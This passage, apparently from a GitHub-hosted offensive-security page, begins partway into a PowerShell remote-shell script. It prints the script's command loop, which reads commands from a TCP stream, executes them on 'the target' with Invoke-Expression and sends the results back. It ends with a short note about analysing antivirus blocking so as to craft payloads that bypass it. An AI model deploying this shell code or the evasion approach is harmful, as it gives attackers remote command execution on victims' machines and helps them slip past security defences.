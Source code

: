 ```
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```


### Payloads take tifferent shape and Forms

we can uderstand by these why AV is blocking request then analysisng it we can get some idea and craft the code to bypass the restriction. 
